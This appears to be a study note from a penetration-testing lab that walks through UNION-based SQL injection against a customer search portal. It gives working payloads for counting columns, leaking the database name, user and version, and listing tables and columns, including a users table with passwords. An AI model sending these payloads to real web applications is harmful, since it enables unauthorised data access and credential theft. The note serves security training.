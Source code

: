 #### Loading the Customer Search Portal
![[Pasted image 20230521094234.png]]
Click SEARCH w/o any query parameters

***Before crafting any attack strategy, we need to know the exact number of columns present in the target table.***

#### Verifying the exact number of columns
```
' ORDER BY 1-- //
```
The above statement orders the results by a specific column, meaning it will fail whenever the selected column does not exist. Increasing the column value by one each time, we'll discover that the table has five columns, since ordering by column six returns an error.

#### Finding the Exact Number of Columns
![[Pasted image 20230521094414.png]]

#### Enumerating the Database via SQL UNION Injection
```
%' UNION SELECT database(), user(), @@version, null, null -- //
```
Since we want to retrieve all the data from the _customers_ table, we'll use the percentage sign followed by a single quote to close the search parameter. Then, we begin our injected query with a **UNION SELECT** statement that dumps the current database name, the user, and the MySQL version in the first, second, and third columns, respectively, leaving the remaining two null.

#### Enumerating the Database
![[Pasted image 20230521094607.png]]
***The web application is explicitly omitting the output from the first column because IDs are not usually useful information for end users.*

#### Fixing the Injected UNION Query
```
' UNION SELECT null, null, database(), user(), @@version  -- //
```
![[Pasted image 20230521094715.png]]
This time, all three values returned correctly, including _offsec_ as the current database name.

#### Dumping the Current Database Tables Structure
```
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //
```
![[Pasted image 20230521094831.png]]
This output verifies that the three columns contain the table name, the column name, and the current database, respectively.

*The offsec database has customers and users tables. The customers table has the columns id, name, phone, address, and country. The users table has the columns id, username, password, and description.*
